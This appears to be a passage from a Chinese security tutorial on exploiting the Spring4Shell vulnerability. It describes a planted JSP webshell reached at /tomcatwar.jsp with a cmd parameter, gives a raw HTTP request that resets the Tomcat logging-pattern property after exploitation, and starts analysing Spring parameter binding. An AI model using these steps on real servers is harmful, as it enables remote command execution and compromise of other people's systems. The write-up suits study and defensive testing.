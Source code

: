 ROOT 目录下就会出现一个 jsp 文件，这就是写入的 webshell。

![image-20230524110228934](./img/spring/image-20230524110228934.png)

然后访问/tomcatwar.jsp?pwd=j&cmd= 即可执行命令。

![image-20230524111204263](./img/spring/image-20230524111204263.png)

注意，需要在利用完成后将`class.module.classLoader.resources.context.parent.pipeline.first.pattern`清空，否则每次请求都会写入新的恶意代码在 JSP Webshell 中，导致这个文件变得很大。发送如下数据包将其设置为空：

```http
GET /?class.module.classLoader.resources.context.parent.pipeline.first.pattern= HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close


```

总体来说，这个漏洞的利用方法会修改目标服务器配置，导致目标需要重启服务器才能恢复，实际测试中需要格外注意。

#### POC 分析

参数绑定的实现方式：如果用户传入 name=zzz，则 Spring 框架会自动调用`user.setName(‘zzz’)`进行赋值,，然后`user.getName()`返回 name。 如果提交的参数中出现了 User 类的一个 public 字段或方法，就自动用户提交请求给他赋值。

`name`自动绑定到了`user`参数的`name`属性上，`age`自动绑定到了`user`参数的`age`属性上。

![image-20230524152630613](./img/spring/image-20230524152630613.png)
